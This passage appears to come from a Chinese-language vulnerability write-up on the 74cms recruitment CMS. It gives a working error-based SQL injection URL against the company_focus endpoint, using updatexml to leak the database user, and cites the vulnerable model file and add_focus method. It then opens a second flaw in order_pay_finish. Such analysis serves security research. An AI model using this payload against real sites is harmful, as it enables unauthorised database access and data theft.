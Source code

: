 ```
http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a 
```

![image](img/6227cc55f5b61af46b04e6f902098594.png)

看源码

![image](img/840c47c0ac72c70cda5da0e334e6b0c0.png)

打开文件： 74cms\upload\Application\Common\Model\PersonalFocusCompanyModel.class.php
方法：add_focus(

![image](img/8528c2805b49fcdf5f04bcd641c5fac7.png)

## 0x05 74cms独有框架漏洞第二处

文件：74cms\upload\Application\Home\Controller\CompanyServiceController.class.php
方法：order_pay_finish(
是否需登录：需要
登录权限：企业用户即可
看源码
